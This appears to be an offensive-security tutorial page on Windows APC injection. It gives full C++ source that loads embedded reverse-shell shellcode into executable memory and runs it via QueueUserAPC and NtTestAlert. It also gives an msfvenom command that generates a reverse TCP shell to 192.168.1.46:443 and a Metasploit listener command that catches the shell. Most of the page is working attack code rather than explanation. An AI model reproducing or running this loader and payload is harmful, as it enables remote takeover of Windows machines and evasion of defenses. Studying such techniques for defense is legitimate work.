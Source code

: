 # Asynchronous Procedure Calls - APC

 is a function that executes asynchronously in the context of a particular thread. When an APC is queued to a thread, the system issues a software interrupt. The next time the thread is scheduled, it will run the APC function

* Threads execute code within processes

* Threads can execute code asynchronously by leveraging APC queues

* Each thread has a queue that stores all the APCs

* Application can queue an APC to a given thread (subject to privileges)

* When a thread is scheduled, queued APCs get executed
  
  یک 
  
  #### Apc-local.cpp
  
  ```cpp
  #include <Windows.h>
  
  #pragma comment(lib, "ntdll")
  using myNtTestAlert = NTSTATUS(NTAPI*)();
  
  int main()
  {
  unsigned char buf[] = "\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x31\xff\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49\x75\xef\x52\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c\x01\xd0\x8b\x58\x20\x01\xd3\x50\x8b\x48\x18\x85\xc9\x74\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x01\x2e\x68\x02\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
  //NtTestAlert is a system call that’s related to the alerts mechanism of Windows. 
  //This system call can cause execution of any pending APCs the thread has
  myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));
  SIZE_T shellSize = sizeof(buf);
  // we allocate memory in the local process for our payload:
  LPVOID shellAddress = VirtualAlloc(NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  // Then write our payload to newly allocated memory:
  WriteProcessMemory(GetCurrentProcess(), shellAddress, buf, shellSize, NULL);
  //Then queue an APC to the current thread:
  PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
  QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
  //
  testAlert();
  
  return 0;
  }
  ```
  
  ### Payload
  
  ```bash
  msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.46 LPORT=443  -f c 
  ```
  
  ### Listener
  
  ```bash
  msfconsole -x "use exploits/multi/handler; set lhost 192.168.1.46; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
  ```

Tips : run on x86 
